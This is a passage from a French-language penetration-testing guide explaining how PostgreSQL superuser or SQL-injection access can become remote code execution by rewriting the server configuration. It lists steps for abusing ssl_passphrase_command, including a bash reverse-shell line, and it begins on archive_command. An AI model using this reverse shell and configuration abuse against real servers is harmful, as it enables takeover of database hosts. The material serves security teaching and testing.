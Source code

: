 {{#ref}}
../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md
{{#endref}}

### Fichier de configuration PostgreSQL RCE

> [!TIP]
> Les vecteurs RCE suivants sont particulièrement utiles dans des contextes SQLi contraints, car toutes les étapes peuvent être effectuées via des instructions SELECT imbriquées.

Le **fichier de configuration** de PostgreSQL est **écrivable** par l'**utilisateur postgres**, qui est celui qui exécute la base de données, donc en tant que **superutilisateur**, vous pouvez écrire des fichiers dans le système de fichiers, et par conséquent, vous pouvez **écraser ce fichier.**

![](<../images/image (322).png>)

#### **RCE avec ssl_passphrase_command**

Plus d'informations [sur cette technique ici](https://pulsesecurity.co.nz/articles/postgres-sqli).

Le fichier de configuration a certains attributs intéressants qui peuvent mener à RCE :

- `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Chemin vers la clé privée de la base de données
- `ssl_passphrase_command = ''` Si le fichier privé est protégé par un mot de passe (chiffré), postgresql **exécutera la commande indiquée dans cet attribut**.
- `ssl_passphrase_command_supports_reload = off` **Si** cet attribut est **activé**, la **commande** exécutée si la clé est protégée par un mot de passe **sera exécutée** lorsque `pg_reload_conf()` est **exécuté**.

Ensuite, un attaquant devra :

1. **Extraire la clé privée** du serveur
2. **Chiffrer** la clé privée téléchargée :
1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Écraser**
4. **Extraire** la **configuration** actuelle de postgresql
5. **Écraser** la **configuration** avec les attributs mentionnés :
1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
2. `ssl_passphrase_command_supports_reload = on`
6. Exécuter `pg_reload_conf()`

En testant cela, j'ai remarqué que cela ne fonctionnera que si le **fichier de clé privée a des privilèges 640**, qu'il est **possédé par root** et par le **groupe ssl-cert ou postgres** (de sorte que l'utilisateur postgres puisse le lire), et qu'il est placé dans _/var/lib/postgresql/12/main_.

#### **RCE avec archive_command**

**Plus** [**d'informations sur cette config et sur WAL ici**](https://medium.com/dont-code-me-on-that/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3)**.**

Un autre attribut dans le fichier de configuration qui est exploitable est `archive_command`.

Pour que cela fonctionne, le paramètre `archive_mode` doit être `'on'` ou `'always'`. Si c'est vrai, alors nous pourrions écraser la commande dans `archive_command` et forcer son exécution via les opérations WAL (write-ahead logging).
